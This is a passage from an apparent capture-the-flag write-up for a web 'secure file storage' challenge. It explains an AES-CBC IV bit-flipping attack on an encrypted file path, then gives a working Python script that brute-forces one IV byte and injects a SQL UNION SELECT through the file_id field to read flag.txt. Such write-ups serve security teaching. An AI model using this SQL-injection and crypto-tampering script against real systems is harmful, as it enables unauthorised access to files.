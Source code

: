 ```
+-----+---------+-------+------------------------------------------------------------------+------------------------------------------------------------------+
```

The 48 byte value consists of three 16 byte blocks. The first block is the 16 byte IV. The second block is the first 16 bytes of our filename, which is `123456789ACD.tx`. The third block is the rest of the filename padded to 16 bytes using PKCS, which decrypts to `t\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e`. This results in our full plaintext actually being `123456789ACD.txt\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e` when it is decrypted. If we remove the first block and use the first 16 bytes of our encrypted filename as the IV, we will still be able to successfully decrypt, however now our filename will be just be the last block, `t\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e`. This is close to what we want for our `filepath`, however we want the first byte to be a "`/`" instead of a "`t`". In order to flip this byte correctly, we can modify the first byte of our new IV until we get an IV that decrypts the payload to a `/` with proper padding. 

The following script generates the value:
```python
import requests
import base64


payload = list(base64.b64decode("eSCeM7m5WRIfpvsfqxPR6BfXMDlYZl4U3tICOxTO3FhN6MEyru+rdu/IhmCuUwYf"))

flag_txt_enc = 'eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q='
user_id = 149
jwt_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFyanVuIiwiaWQiOjE0OX0.bow8Xe0vVpNhybZknSuCSw9OxDDJfXY3cuXFhcVZ-AE"


#remove IV
payload = payload[16:]


cookie = {
        "auth": jwt_token
        }


for j in range(0,0x100):

    #change the first byte of IV to change the first byte of the encrypted block
    payload[0] = j
    new_payload = base64.b64encode(bytes(payload)).decode()
    data = {
            "file_id": f'999999 UNION SELECT 1,{user_id},"","{flag_txt_enc}","{new_payload}"'
            }

    resp = requests.post('https://uscybercombine-s4-web-secure-file-storage.chals.io/api/files/info', data=data, cookies=cookie)
    if b'flag.txt' in resp.content:
        print(j)
        print(resp.content)
        print(new_payload)
        print(data['file_id'])
        break
```
